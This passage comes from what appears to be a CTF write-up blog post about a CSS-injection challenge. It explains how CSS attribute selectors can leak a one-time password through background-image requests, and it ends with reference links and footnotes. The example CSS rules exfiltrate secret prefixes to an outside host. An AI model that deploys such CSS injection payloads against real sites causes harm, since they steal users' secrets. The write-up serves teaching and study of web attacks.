 This would tell me what character the OTP starts with because it'll load the corresponding background image from my web server.

However, there's no way to check if the second character of the OTP is some letter. Attribute selectors don't have any pattern matching like

```css
input[value~="^.a"] { ... }
```

where it checks the second character while allowing the first character to be anything. The only things CSS can check are:

- `[attr="value"]` Whether the attribute is exactly the string.
- `[attr^="value"]` Whether the attribute starts with a string.
- `[attr$="value"]` Whether the attribute ends with a string.
- `[attr*="value"]` Whether the attribute contains the string anywhere, at least once.
- `[attr*="value" i]` Adding `i` at the end makes the comparison case insensitive.
- `[attr|="value"]` This also can compare strings, but it has a special behavior that allows `lang="en"` and `lang="en-US"` to be treated similarly. It's not particularly useful for anything but the `lang` attribute.

Most CSS injection challenges you can find on the web don't need to worry about the problem. Once they know what the secret starts with, they can create a new CSS file that checks if the secret starts with that character followed by some character.


```html
<style>
/* We know it starts with K */
input[value^="Ka"] { background-image: url('https://example.com/Ka') }
input[value^="Kb"] { background-image: url('https://example.com/Kb') }
/* ... */
</style>
```

But we don't get this luxury. Our secret is a one-time password that changes with every page load, and every page load will invalidate the user's previous OTP by overwriting it with the new one. If we wanted to do something like this, we'd need to have a rule for every possible string. There's 62 possible characters for each of the 80 characters in the string, so the list of possible strings will grow long quickly. Our CSS file has to be under 6 MB.

One idea I had was to use CSS nesting to try generating these combinations without actually iterating through all of them. Some thing like,

```scss
a {
  &a {
    &a {
      ... {
        [value="&"] {
          background-image: url('https://example.com/' &);
        }
      }
    }
    ...
  }
  &b {
    ...
  }
  ...
}
b {
  ...
}
...
```


[acmucsd]: https://acmucsd.com/communities#Cyber
[acmucla]: https://www.acmcyber.com/
[lactf]: https://lac.tf/
[jsfuck]: https://jsfuck.com/
[strings]: https://en.wikipedia.org/wiki/Strings_(Unix)
[ghidra]: https://ghidra-sre.org/
[dogbolt-aplet321]: https://dogbolt.org/?id=4c61df44-da40-4158-80b4-f4155fbf227e
[strstr]: https://cplusplus.com/reference/cstring/strstr/
[bendera]: https://en.wiktionary.org/wiki/bendera#Indonesian
[wiki]: https://id.wikipedia.org/wiki/Bendera_Indonesia
[dcode]: https://www.dcode.fr/monoalphabetic-substitution
[indofreq]: https://www.sttmedia.com/characterfrequency-indonesian
[^1]: Something I never got to use at UCSD because UCSD didn't have a two-year housing guarantee.
[^2]: The deepest darkest secret doesn't work because the server just sets it to `todo` for all non-Samy users.
[fetch]: https://developer.mozilla.org/en-US/docs/Web/API/fetch
[italics]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/italics
[^10]: You might be wondering how JSFuck can create a function in the first place. You can get `a` from `false` and `t` from `true`, and arrays have a method named `at`, which you can access with `[]['a' + 't']`. It's also possible to get the other letters in `constructor`, so you can use `[]['at']['constructor']` to get a reference to the `Function` constructor, which you can use to convert strings to functions. For example, `Function('return 3')` creates a function that returns 3.
[prior]: http://127.0.0.1:4000/longer-tweets/ctf/#ctf-node-calculator-escape-vm-codegeneration-false
[vuln]: https://security.snyk.io/vuln/SNYK-JS-SAFEEVAL-3373064
[gen]: ../files/lactf/lactf-jsfudge.js
[gener]: ../files/lactf/jsfudge-codegen.js
[e]: https://github.com/uclaacm/lactf-archive/blob/main/2024/rev/glottem/glottem#L10
[polyglot]: https://en.wikipedia.org/wiki/Polyglot_(computing)
[^11]: This was originally a Node-specific feature that has recently been [standardized into JavaScript][shebang], adding a fourth comment syntax to JavaScript's existing family of `//`, `/* */`, and `<!-- -->`.
[shebang]: https://github.com/tc39/proposal-hashbang
[server]: https://github.com/uclaacm/lactf-archive/blob/main/2024/web/quickstyle/server.js
[note]: https://github.com/uclaacm/lactf-archive/blob/main/2024/web/quickstyle/note.js
[nesting]: https://developer.mozilla.org/en-US/docs/Web/CSS/CSS_nesting
[^12]: I tried looking through my browsing history, but there's no evidence of me ever learning about this from anything online. Based on my browsing history, it just looks like I was trying things like `<span id="document">` then suddenly had a stroke of genius and tried doing `<form name=querySelectorAll>`. Then, I got confused where I got this idea from and tried to look up "form name getelementbyid injection" to find the original post.
[^13]: Again, as noted at the beginning of the article, everyone at UCSD is part of our team. I don't think this counts as cheating. At worst it's just some OSINT.
[paradox]: https://www.dcode.fr/birthday-problem
[^14]: It's possible for a trigraph to be missing a pair, like having `abc` but not `ab`, due to CSS variable collisions.
[worker]: https://workers.cloudflare.com/
[tunnel]: https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/
[workers]: https://blog-cloudflare-com.webpkgcache.com/doc/-/s/blog.cloudflare.com/announcing-workers-dev/
[^15]: Like our dining halls' mobile ordering app.
